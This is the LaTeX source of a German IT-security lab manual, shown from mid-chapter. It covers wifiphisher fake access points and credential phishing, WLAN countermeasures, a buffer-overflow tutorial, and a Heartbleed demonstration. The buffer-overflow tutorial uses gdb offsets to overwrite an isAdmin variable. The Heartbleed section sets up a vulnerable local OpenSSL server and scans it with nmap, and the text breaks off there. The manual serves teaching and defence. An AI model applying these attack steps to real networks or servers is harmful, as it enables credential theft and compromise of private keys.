	
\includegraphics[width=0.9\textwidth]{images/WLAN/wifiphisher.png}
	\caption{Wifiphisher Netzwerkauswahl}
\end{figure}
\noindent Im Anschluss daran wird ein Webserver und der Fake AP mit der entsprechenden Konfiguration gestartet. \\
Danach wird begonnen, den Datenverkehr im Zielnetzwerk durch Abmeldung der Opfer vom Ziel-Access Point zu unterbrechen. \\
Das Opfer verbindet sich im Anschluss mit dem falschen Access Point des Angreifers, dieser befindet sich nun in einer "'Man in the Middle"'-Position. \\
Beim Aufruf einer Webseite wird dem Opfer nun eine Webseite präsentiert, die der Konfigurationsoberfläche des Routers nachempfunden ist und zur Eingabe des WLAN-Zugangskennwortes aufgrund eines durchgeführten Firmwareupdates auffordert. Denkbar ist auch die Nachbildung von Login-Seiten verschiedener sozialer Netzwerke oder Mailprovider. Auch die Fälschung von Login-Seiten für Hotspots ist möglich. \\
War der Angriff erfolgreich, das heißt ein Opfer hat beispielsweise das WLAN-Zugangskennwort auf der präsentierten Seite eingegeben, so beendet sich \colorbox{altgray}{\lstinline|wifiphisher|} nach dem Anzeigen der eingegebenen Daten.

\section{Gegenmaßnahmen}
Im nachfolgenden Kapitel werden kurz mögliche Gegenmaßnahmen beleuchtet, die oben vorgestellte Angriffe verhindern bzw. erschweren.
\subsection{WEP}
Der WEP-Standard gilt als nicht mehr sicher und ist durch WPA bzw. WPA2 abgelöst. Die einfachste Gegenmaßnahme um sich vor einem Angriff auf WEP zu schützen ist das Abschalten von WEP-gesicherten Netzen. Neuere Router bieten zwar die Möglichkeit von WEP-Absicherung, diese sollte aber auf keinem Fall mehr verwendet werden. \\
Falls man aus Kompatibilitätsgründen auf WEP angewiesen ist, sollte unbedingt geprüft werden, ob nicht auf neuere Hardware umgestiegen werden kann, da WEP keine Sicherheit mehr garantieren kann. Außerdem werden Versuche WEP sicherer zu machen, namentlich die Shared-Key-Authentication, eher als unsicherer betrachtet, da das Passwort hier mehrfach verwendet wird, wodurch es noch verfügbarer für Angreifer wird. \\
Die beste Gegenmaßnahme gegen Angriffe auf das WEP-Netz ist die Einfachste überhaupt: kein WEP verwenden.

\subsection{WPS}
WPS wird nach wie vor verwendet und effektive Gegenmaßnahmen sind in erster Linie moderne Hardware, da diese, wie bereits oben erwähnt, die Probleme älterer Geräte nicht mehr kennen und eine erheblich geringere Angriffsfläche liefern. \\
Lediglich das Verwenden des Push-Buttons ohne weitere Key Eingabe ist problematisch, da sich alle Geräte in Reichweite ohne weitere Sicherheiten einbinden können. Es sollte also nach jedem Nutzen des Push-Buttons geprüft werden, ob sich unbekannte Geräte im WLAN befinden. Befolgt man diesem Ratschlag ist auch der Push-Button verhältnismäßig sicher.

\subsection{WPA/WPA2}
Da WPA bzw. WPA2 in fast jedem Haushalt/Unternehmen eingesetzt wird, sind hier Gegenmaßnahmen zu den oben demonstrierten Angriffen besonders relevant.
\subsubsection{Personal-Mode}
Grundsätzlich sind jedoch beide Verfahren nur so sicher, wie die verwendeten PSKs. Jeder Nutzer sollte also Standardpasswörter der Auslieferung sofort ersetzen und möglichst die maximal mögliche Passwortlänge ausnutzen. Auch sollte darauf geachtet werden, dass die Entropie des Passwortes hoch ist. Nur dann kann mit hoher Wahrscheinlichkeit davon ausgegangen werden, dass das Netz sicher ist. \\
Viele Router bieten aktuell in der Standardkonfiguration WPA und WPA2 im Kombinationsbetrieb an. Der reine Einsatz von WPA2 sollte einem Kombibetrieb immer vorgezogen werden. \\
Beim Verwendung von WPA/WPA2 im Enterprise Mode sollte entweder von Administrator- oder Nutzerseite darauf geachtet werden, dass das verwendete Passwort zur Anmeldung möglichst hohe Entropie besitzt und einen hohen Grad an Zufall besitzt.
\subsubsection{Enterprise-Mode}
Im Enterprise-Mode gibt es eine sehr effiziente Möglichkeit das Verbinden zu einem Fake-AP zu verhindern bzw. zu vermeiden. Die RADIUS-Server stellen immer Zertifikate zur Verfügung, die bei einem Verbindungsversuch dem Client übermittelt werden. Wird nun von einen Fake-AP ein mit hoher Wahrscheinlichkeit nicht vertrauenswürdiges Zertifikat verwendet, wird dies bei der Prüfung entdeckt und kein Challenge-Response-Verfahren durchgeführt. Besonders in Mobilgeräten kann die Installation dieser Zertifikate aufwändig sein, sollte jedoch immer durchgeführt werden, um die Sicherheit der eigenen Credentials zu gewähren.\\
Auch bei einem Access Point im Enterprise-Mode ist es empfehlenswert bei der Auswahl des Passwortes die Länge und Entropie der Zeichenkette zu maximieren. 
\subsubsection{Fake-Access-Points}
Bei dem Verbinden mit einem WLAN-Netz sollte immer darauf geachtet werden, ob das Netz so konfiguriert ist, wie die Verbindung in der Verbindungsstatistik des Betriebssystems dokumentiert ist. Die meisten Betriebssysteme warnen heutzutage auch davor, wenn versucht wird eine Verbindung zu einem WLAN mit bekannter SSID aufzubauen, welches aber eine abweichende Konfiguration aufweist. Bei einer solchen Verbindungswarnung sollte man nur mit äußerster Vorsicht eine Verbindung mit dem Netz aufbauen.

%!TEX root = ../document.tex
\chapter{DOS Angriffe}
\section{Erklärung}
\section{Vorbereitung}
\section{Ablauf}
\section{Gegenmaßnahmen}
%!TEX root = ../document.tex
\chapter{Buffer Overflow}
Buffer Overflow ist der Überbegriff für eine Schwachstelle im Quellcode der für einen Angriff genutzt wird und gehört zu den häufigsten Angriffsmethoden. Je nach Art der Schwachstelle wird auch von Heap-Overflow, Integer-Overflow oder String-Overflow gesprochen.
\section{Erklärung}
Einfach ausgedrückt, werden bei diesem Angriff einem Programm mehr Daten übergeben als es erwartet bzw. verarbeiten kann. Bei guter Programmierung führt dies zu einem Absturz des Programmes oder einer Fehlermeldung. Bei schlechter Programmierung (fehlender Überprüfung der Eingangsdaten) reicht der freigehaltene Speicherplatz für die Variable aber nicht aus und nachfolgende Speicherbereiche werden überschrieben.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/BufferOverflow/speicherAufbau}
	\caption{Aufbau des Speichers beim Start eines Programmes: Code -> Heap -> Stack}
	\label{fig:speicherAufbau}
\end{figure}

Für das Überschreiben der nachfolgenden Speicherbereiche ist die Speicherverwaltung verantwortlich. Beim Start eines Programmes wird diesem nämlich ein bestimmter Speicherbereich zugewiesen. Dieser ist, wie in Abbildung \ref{fig:speicherAufbau} dargestellt, in drei Abschnitte aufgeteilt: den Code, den Heap und den Stack. \\
Im Code liegt der eigentliche Quellcode, der nicht mehr verändert werden kann. Darüber liegt der Heap, in dem dynamische Variablen abgelegt sind. Der Stack beginnt am oberen Ende des Speichers und wächst mit jedem Eintrag nach unten. Dabei wird nach dem Prinzip des LIFO (last in, first out) vorgegangen. Gespeichert werden im Stack lokale Variablen, der Inhalt von Prozessorregistern und Rücksprung-Adressen von Unterprogrammen. Bei einem Angriff durch Buffer-Overflow wird einen lokale Variable mit mehr Daten beschrieben, als reserviert sind. Deshalb wird der nachfolgende Speicherbereich überschrieben, was entweder andere lokale Variablen oder aber Rücksprung-Adressen sein können.

Hier beginnt der eigentlich schädliche Angriff. Wurde zuvor bereits Schadcode auf dem Rechner des Opfers gespeichert, kann die Rücksprung-Adresse nun auf den Einsprungpunkt dieses Schadcodes zeigen. Mit Hilfe eines einfachen C-Programmes soll dies verdeutlicht werden. Darin wird zuerst ein Buffer angelegt und danach das beim Programmaufruf übergebene Argument in diesem Buffer gespeichert.

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/BufferOverflow/beispielCode}
	\caption{links: Eingabeargument wird nicht überprüft, kann aber keinen Schaden anrichten, rechts: Eingabeargument wird nicht überprüft und es ist möglich die Variable isAdmin zu überschreiben}
	\label{fig:beispielCode}
\end{figure}

In Abbildung \ref{fig:beispielCode} sind zwei kurze Programme nach diesem Aufbau gegeben. Im linken Bild kann nicht viel passieren, da nur eine Variable gespeichert wird. Im rechten Bild kann hingegen die Variable isAdmin bei zu langem Eingabeargument überschrieben werden.

Um herauszufinden, ab wann es sich um eine \enquote{zu lange} Eingabe handelt, muss der Assembler Code des Programmes analysiert werden.
Der Dump des Assembler Codes der main-Funktion auf dem rechten Teilbild sieht folgendermaßen aus:

\begin{lstlisting}
0x4004e6 <+0>: push rbp
0x4004e7 <+1>: mov rbp,rsp
0x4004ea <+4>: sub rsp,0x30
0x4004ee <+8>: mov DWORD PTR [rbp-0x24],edi
0x4004f1 <+11>:mov QWORD PTR [rbp-0x30],rsi
0x4004f5 <+15>:mov DWORD PTR [rbp-0x4],0x0
0x4004fc <+22>:mov rax,QWORD PTR [rbp-0x30]
0x400500 <+26>:add rax,0x8
0x400504 <+30>:mov rdx,QWORD PTR [rax]
0x400507 <+33>:lea rax,[rbp-0x20]
0x40050b <+37>:mov rsi,rdx
0x40050e <+40>:mov rdi,rax
0x400511 <+43>:call 0x4003c0
0x400516 <+48>:mov eax,0x0
0x40051b <+53>:leave
0x40051c <+54>:ret
\end{lstlisting}

In den ersten drei Zeilen wird der Speicher für die beiden Variablen buffer und isAdmin reserviert. In Zeile <+15> wird in den Basepointer der isAdmin-Variable 0x4 eine Null geschrieben. In Zeile <+33> wird dann die Adresse der Nutzereingabe geladen. Dabei steht "'lea"' für load effective adress. Man kann hier also ablesen, dass die Nutzereingabe der buffer-Variable bei rbp-0x20 beginnt. Soll jetzt also beim Eintragen der buffer-Variable die isAdmin-Variable überschrieben werden, sind 0x20-0x4+1 (=29) Zeichen notwending.

\section{Vorbereitung}
Notwendige Hardware:

\begin{itemize}
	\item Kali Linux 2.0 mit der Security Workbench
\end{itemize}

\section{Ablauf}
Das Tutorial besteht aus zwei einfachen Beispielen, bei denen ausgehend vom Quellcode eine Objekt-Datei erstellt und ausgewertet wird. Danach können selbstständig zwei weitere, ähnliche Aufgaben gelöst werden, bei denen lediglich die Objekt-Dateien vorhanden sind.

Zur Durchführung dieses Tutorials musst du die Security Workbench öffnen und dort die Nummer 7 \enquote{Buffer Overflow} wählen.

\subsection{Erstes Beispiel}
Wähle beim ersten Durchgang des Tutorials Nummer 1 \enquote{Erstes Beispiel}

Als Erstes musst du dir nun den Quellcode von BufferOverflow/FirstExample.c in einem Texteditor anschauen. Es werden darin zuerst drei Variablen angelegt. Im Anschluss wird das Eingabeargument in einer der Variablen gespeichert. Da das Argument vor der Speicherung nicht auf seine Größe überprüft wird, ist es möglich die anderen Variablen mit einer zu großen Eingabe zu überschreiben.

Nun soll der Quellcode in ein ausführbares Programm kompiliert werden. Dies wird mit folgendem Befehl gemacht:
\begin{lstlisting}
gcc -ggdb BufferOverflow/FirstExample.c -o BufferOverflow/FirstExample
\end{lstlisting}
(\colorbox{altgray}{\lstinline|gcc|} startet den GNU Kompiler und speichert aufgrund der Option \colorbox{altgray}{\lstinline|-ggdb <name>|} auch Informationen des angegebenen Programmes, die später mit dem GNU Debugger ausgelesen werden können, mit \colorbox{altgray}{\lstinline|-o <name>|} wird außerdem der Name angegeben unter dem die erstellte Objekt-Datei gespeichert werden soll)

\begin{figure}
	\centering
	
\includegraphics[width=\textwidth]{images/BufferOverflow/gnuDebugger}
	\caption{Beispiel, wie der Start des GNU Debuggers aussehen sollte}
	\label{fig:gnuDebugger}
\end{figure}

Um nun den Assembler-Code des erzeugten Programmes zu analysieren wird der GNU Debugger verwendet. Da hier ein Unterprozess geöffnet wird, startet ein neues Terminal mit dem GNU Debugger. Wie dieses aussieht, kannst du in Abbildung \ref{fig:gnuDebugger} sehen. Du kannst im ersten Terminal weiter die Befehle durchgehen und im zweiten den Assembler-Code analysieren. Gestartet wird der GNU Debugger mit dem Befehl:
\begin{lstlisting}
gdb BufferOverflow/FirstExample
\end{lstlisting}
(\colorbox{altgray}{\lstinline|gdb <name>|} startet den GNU Debugger mit der angegebenen Objekt-Datei)

Jetzt wollen wir direkt den Assembler-Code lesen, was mit folgendem Befehl möglich ist
\begin{lstlisting}
disas main
\end{lstlisting}
(\colorbox{altgray}{\lstinline|disas <name>|} startet den Disassembler der angegebenen Funktion aus dem Programm, mit dem der Debugger gestartet worden ist)

Beim Analysieren muss herausgefunden werden welche Variablen wo gespeichert werden. Dann wird ausgerechnet, wie viele Stellen das Eingabeargument benötigt, um die gewünschte Variable mit zu überschreiben. In diesem Beispiel sind es 77 Stellen: 0x50-0x4=0x4C=76 Stellen ist der Speicherplatz für das Eingabeargument. Plus eine Stelle zum Überschreiben von der Administratorvariablen.

Nach der Anaylse des Codes kann der GNU Debugger wieder geschlossen werden. Dazu wird zuerst der Disassembler geschlossen mit
\begin{lstlisting}
q
\end{lstlisting}
(\colorbox{altgray}{\lstinline|q|} schließen des Disassemblers).

Im Anschluss wird der GNU Debugger geschlossen, ebenfalls mit dem Befehl
\begin{lstlisting}
quit
\end{lstlisting}
(\colorbox{altgray}{\lstinline|quit|} schließen des GNU Debuggers)

Da das zusätzliche Terminal nun nicht mehr benötigt wird, kann es ebenfalls geschlossen werden. Das wird durchgeführt mit
\begin{lstlisting}
exit
\end{lstlisting}
(\colorbox{altgray}{\lstinline|exit|} schließt das Terminal)

Jetzt kannst du das ausführbare Programm mit folgender Eingabe auf dem Terminal starten:
\begin{lstlisting}
./BufferOverflow/FirstExample <Eingabeargument>
\end{lstlisting}
(\colorbox{altgray}{\lstinline|./<Programmname>|} damit wird ein Programm aus dem aktuellen Ordner gestartet, Eingabe kann bei Bedarf inkl. der Odnerstruktur erfolgen; \\
\colorbox{altgray}{\lstinline|<Eingabeargument>|} zusätzlich kann ein Eingabeargument zur Ausführung mit angegeben werden)

Du kannst diese Eingabe mehrmals hintereinander machen und dabei gezielt eine Überschreibung der isAdmin-Variable herbeiführen oder eine Ausführung ohne Überschreibung starten.

\subsection{Zweites Beispiel}
Wähle zur Durchführung des zweiten Beispiels Nummer 2 \enquote{Zweites Beispiel}

Als Erstes musst du dir nun den Quellcode von BufferOverflow/SecondExample.c in einem Texteditor anschauen. Es werden darin zuerst drei Variablen angelegt und im Anschluss wird das Eingabeargument in einer der Variablen gespeichert. Da das Argument vor der Speicherung nicht auf seine Größe überprüft wird, ist es möglich die anderen Variablen mit einer zu großen Eingabe zu Überschreiben.

Nun soll der Quellcode in ein ausführbares Programm kompiliert werden. Dies wird mit folgendem Befehl gemacht:
\begin{lstlisting}
gcc -ggdb BufferOverflow/SecondExample.c -o BufferOverflow/SecondExample
\end{lstlisting}
(\colorbox{altgray}{\lstinline|gcc|} startet den GNU Kompiler und speichert aufgrund der Option \colorbox{altgray}{\lstinline|-ggdb <name>|} auch Informationen des angegebenen Programmes, die später mit dem GNU Debugger ausgelesen werden können, mit \colorbox{altgray}{\lstinline|-o <name>|} wird außerdem der Name angegeben unter dem die erstellte Objekt-Datei gespeichert werden soll)

Um nun den Assembler-Code des erzeugten Programmes zu analysieren wird der GNU Debugger verwendet. Gestartet wird dieser mit dem Befehl
\begin{lstlisting}
gdb BufferOverflow/SecondExample
\end{lstlisting}
(\colorbox{altgray}{\lstinline|gdb <name>|} startet den GNU Debugger mit der angegebenen Objekt-Datei)

Jetzt wollen wir direkt den Assembler-Code lesen, was mit folgendem Befehl möglich ist
\begin{lstlisting}
disas main
\end{lstlisting}
(\colorbox{altgray}{\lstinline|disas <name>|} startet den Disassembler der angegebenen Funktion aus dem Programm, mit dem der Debugger gestartet worden ist)

Beim Analysieren müssen die zuvor angesprochenen Angaben gesucht werden. Welche Variablen werden wo gespeichert. Dann muss ausgerechnet werden, wie viele Stellen das Eingabeargument benötigt, um die gewünschte Variable mit zu überschreiben. In diesem Beispiel sind es 69 Stellen: 0x50-0x8-0x4=0x44=68 Stellen ist der Speicherplatz für das Eingabeargument. Plus eine Stelle zum Überschreiben von der Administratorvariablen.

Nach der Anaylse des Codes kann der GNU Debugger wieder geschlossen werden. Dazu wird zuerst der Disassembler geschlossen mit
\begin{lstlisting}
quit
\end{lstlisting}
(\colorbox{altgray}{\lstinline|quit|} schließen des Disassemblers).

Im Anschluss wird der GNU Debugger geschlossen, ebenfalls mit dem Befehl
\begin{lstlisting}
quit
\end{lstlisting}
(\colorbox{altgray}{\lstinline|quit|} schließen des GNU Debuggers)

Da das zusätzliche Terminal nun nicht mehr benötigt wird, kann es ebenfalls geschlossen werden. Das wird durchgeführt mit
\begin{lstlisting}
exit
\end{lstlisting}
(\colorbox{altgray}{\lstinline|exit|} schließt das Terminal)

Jetzt kannst du das ausführbare Programm mit folgender Eingabe auf dem Terminal starten:
\begin{lstlisting}
./BufferOverflow/SecondExample <Eingabeargument>
\end{lstlisting}
(\colorbox{altgray}{\lstinline|./|} damit wird ein Programm aus dem aktuellen Ordner gestartet; \\
\colorbox{altgray}{\lstinline|./<Programmname> <Eingabeargument>|} zusätzlich wird der Programmname - bei Bedarf inkl. der Ordnerstruktur - mit dem angegebenen Eingabeargument ausgeführt)

Du kannst diese Eingabe mehrmals hintereinander machen und dabei gezielt eine Überschreibung der isAdmin-Variable herbeiführen oder eine Ausführung ohne Überschreiben starten.

\subsection{Aufgaben}
Zusätzlich zu den beiden gerade erklärten Beispielen stehen zwei Aufgaben zur Verfügung. Bei diesen ist lediglich die Objekt-Datei gegeben und es soll auch hier herausgefunden werden, wie viele Stellen das Eingabeargument besitzen muss, damit das Passwort ausgegeben wird (weil man die Administratorvariable überschrieben hat).

Die Aufgaben liegen im Unterordner Projekte/BufferOverflow und heißen Buffer1 bzw. Buffer2.

\section{Gegenmaßnahmen}
\subsection{Programmierer}
Ist man selbst der Programmierer und möchte Angriffe auf den eigenen Code verhindern, ist die einfachste Methode das Benutzen von modernen Compilern in Kombination mit Visual C++ 2010-Projekten. Diese prüfen bereits beim Compilieren, ob etwa unsichere Befehle wie \enquote{strcpy} anstatt der sicheren Variante von \enquote{strcpy\_s} verwendet werden und gibt entsprechende Warnungen aus. Sollte diese Warnung ignoriert werden, so wird trotzdem ein sicherer Code erzeugt, da automatische Funktionen in den Code mit eingepflegt werden. Zu diesen Funktionen gehört die \enquote{Adress space layout randomization} (ASLR) die der Funktion bei jedem Programmstart eine neue Adresse im Speicher zuweist. Der Compiler-Schalter /GS ist eine Puffersicherheitsüberprüfung, die einen Buffer-Overflow abfängt und das Programm aufgrund des Compiler-Schalters /RTC1 (zur vollständigen Laufzeitüberprüfung) die Programmausführung abbricht.

Dass trotz all diesen Möglichkeiten noch Buffer-Overflow-Angriffe möglich sind, liegt an den alten Entwicklungsumgebungen. Viele Programme werden noch in solchen erstellt, da das Umziehen von Software auf neuer Umgebungen sehr viel Aufwand benötigt. Außerdem haben Hacker mittlerweile auch Methoden gefunden, um diese Sicherungen zu umgehen.

\subsection{Benutzer}
Als Benutzer eines Programmes ist man darauf angewiesen, dass der Hersteller seine Programme möglichst gut abgesichert hat. Durch regelmäßige Updates kann man den neuesten Schutz des Herstellers verwenden.

Eine andere Möglichkeit ist die Wahl von alternativer Software (Foxit Reader statt Adobe Reader). Hier kann man auf wenig Hacker-Angriffe hoffen, da diese normalerweise für einen großen Effekt weit verbreitete Software angreifen.

Die letzte Möglichkeit stellt das kostenloses Microsoft Tool Emet (Enhanced Mitigation Experience Toolkit) dar. Dieses sichert Programme nachträglich mit den im vorherigen Abschnitt erklärten Schutzmechanismen ab und bietet somit zumindest einen kleinen Schutz vor Angriffen.
%!TEX root = ../document.tex
\chapter{Heartbleed in OpenSSL}

Heartbleed ist die Bezeichnung für eine Verwundbarkeit in der SSL-Library OpenSSL, die von Version 1.0.1 bis 1.0.1f bestand und im Jahr 2014 etwa 500\,000 Server betraf. Die Vulnerability entstand durch die Implementierung einer Heartbeatfunktionalität für TLS, welche es jedoch serverseitig versäumte, Puffergrenzen zu überprüfen.

Das Heartbeat-Protokoll sieht es vor, dass ein Client sowohl bis zu 16\,kByte Daten als auch die Länge der gesendeten Daten an den Server sendet. Der Server antwortet daraufhin mit den erhaltenen Daten, um zu bestätigen, dass die Verbindung noch aufrecht erhalten wird. Unter Heartbleed versteht man einen Angriff auf diesen Heartbeat-Mechanismus, der durch Angabe einer Dateilänge größer als die der mitgesendeten Daten den Server dazu bringt, Teile seines Speicherbereiches mitzusenden.

\begin{figure}[ht!]
	\centering
	
\includegraphics[width=0.6\textwidth]{images/Heartbleed/heartbleed.png}
	\caption{Skizze des Heartbeat-Mechanismus und der Verwundbarkeit namens Heartbleed nach \url{https://commons.wikimedia.org/wiki/File:Simplified_Heartbleed_explanation.svg}}
\end{figure}



Dies kann unter anderem dazuführen, dass der Angreifer den Private Key des Servers erhält. Wurde der Private Key kompromittiert, ist der Angreifer in der Lage aufgezeichneten SSL-Verkehr nachträglich zu entschlüsseln oder Nachrichten im Namen des Servers zu signieren.

\section{Vorbereitung}
Es werden ein bis zwei Rechner mit Kali Linux 2.0 und eingerichteter Security Workbench benötigt. Verwendet man nur einen Rechner, so fungiert dieser sowohl als Opfer als auch als Angreifer. Sollen die Rollen über zwei Rechner verteilt werden, müssen diese über das Netzwerkprotokoll TCP auf einem beliebigen Port -- voreingestellt ist 8989 -- miteinander kommunizieren können.

\section{Ablauf}
Die Demonstration erfolgt in zwei Phasen: Zuerst konfiguriert und startet das Opfer einen für Heartbleed verwundbaren Server. Anschließend stellt der Angreifer die Schwachstelle fest und liest den Private Key des Servers aus. Abschließend kann das Opfer den Server beenden.

\subsection{Opfer -- Die Einrichtung des verwundbaren Servers}

Damit eine Demonstration der Verwundbarkeit möglich ist, wurde OpenSSL 1.0.1f als Kompilat in das Wurzelverzeichnis der Workbench abgelegt. Dass es sich bei dem Programm um eine der verwundbaren Version handelt, wird im ersten Schritt überprüft.

\begin{lstlisting}
# ./openssl version
OpenSSL 1.0.1f 6 Jan 2014
\end{lstlisting}

Durch das \bashCommand{./} wird sichergestellt, dass das OpenSSL-Programm im lokalen Verzeichnis verwendet wird -- statt der aktuelleren und vorinstallierten Version von Kali Linux.

Um eine SSL-Verbindung anzubieten, wird ein Private Key und ein (selbst-) signierter Public Key benötigt, beide Dateien werden ebenfalls mit OpenSSL erzeugt. Der Benutzer wird während des Vorgangs aufgefordert, Angaben zum gerade erstellten Zertifikat zu machen. Die Vorgaben können nach Belieben übernommen oder abgeändert werden.

\begin{lstlisting}
./openssl req -x509 -newkey rsa:1024 -keyout private_key.pem -out certificate.pem -days 365 -nodes -config /etc/ssl/openssl.cnf
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{req} Durchführung eines Certificate Signing Requests(CSR)
	\item \bashCommand{-x509} Erzeugung eines selbstsigniertes Zertifikats statt CSR
	\item \bashCommand{-newkey rsa:1024} Neuer Private Key für 1024-bit RSA
	\item \bashCommand{-keyout private\_key.pem} Ausgabedatei für Private Key
	\item \bashCommand{-out certificate.pem} Ausgabedatei für das Zertifikat
	\item \bashCommand{-days 365} Gültigkeitsdauer des selbstsignierten Zertifikats in Tagen
	\item \bashCommand{-nodes} Der erzeugte Private Key wird unverschlüsselt abgelegt
	\item \bashCommand{-config /etc/ssl/openssl.cnf} Angabe einer zusätzlicher Konfigurationsdatei
\end{itemize}

Zum Vergleich mit dem später vom Angreifer ausgelesenen Private Key wird dieser nun mit OpenSSL ausgegeben.

\begin{lstlisting}
./openssl rsa -in private_key.pem
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{rsa} Bearbeitung von RSA Schlüsseln
	\item \bashCommand{-in private\_key.pem} Angabe der Datei, welche den Private Key enthält
\end{itemize}

Nun kann der in OpenSSL integrierte Webserver gestartet werden. Die anschließend aufrufbare Website zeigt Informationen über die SSL-Konfiguration an.

\begin{lstlisting}
./openssl s_server -key private_key.pem -cert certificate.pem
	-accept 8989 -www
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{s\_server} Start eines einfachen Webservers
	\item \bashCommand{-key private\_key.pem -cert certificate.pem } Private Key und Zertifikat
	\item \bashCommand{-accept 8989} TCP-Port des Webservers
	\item \bashCommand{-www} Einfacher Webserver mit Statusinformationen
\end{itemize}

Der Webserver kann nun unter \url{https://localhost:8989} aufgerufen werden.

\subsection{Angreifer -- Attacke mit Nmap und Metasploit}
Wurde der Webserver wie im vorangehenden Abschnitt beschrieben eingerichtet, kann nun der Angriff auf die verwundbare OpenSSL-Instanz begonnen werden. Für die folgenden Kommandos wird die IP des Opfers und der verwendete Port benötigt. Werden beide Skripte auf dem selben Rechner durchgeführt, lautet die IP-Adresse \bashCommand{127.0.0.1}. Der Port ist standardmäßig \bashCommand{8989}.

Im ersten Schritt wird mit dem Netzwerkscanner Nmap überprüft, ob der Server für Heartbleed anfällig ist. Dieser Scan kann einige Zeit in Anspruch nehmen, währenddessen werden im Konsolenfenster des OpenSSL-Servers einzelne Anfragen angezeigt.

\begin{lstlisting}
nmap --script ssl-heartbleed -sV -p 8989 127.0.0.1
\end{lstlisting}

\begin{itemize}
	\item \bashCommand{nmap} Netzwerkscanner
	\item \bashCommand{--script ssl-heartbleed} Verwendung des Heartbleed-Scanner Plugins
	\item \bashCommand{-sV} Dienst- und Versionserkennung auf offenen Ports
	\item \bashCommand{-p 8989} zu verwendenter Port
	\item \bashCommand{127.0.0.1} IP des zu scannenden Servers
\end{itemize}

Nach Abschluss des Scans wird folgender Hinweis ausgegeben. Der Server ist aus Sicht des Angreifers für Heartbleed verwundbar.

\begin{lstlisting}[caption={Nmap Ausgabe zu verwundbaren SSL-Dienst},label=lst:nmap_heartbleed]
PORT     STATE SERVICE  REASON         VERSION
8989/tcp open  ssl/http syn-ack ttl 64 OpenSSL s_server -www httpd (command line: s_server -key private_key.pem -cert certificate.pem -accept 8989 -www)
| ssl-heartbleed:
|   VULNERABLE:
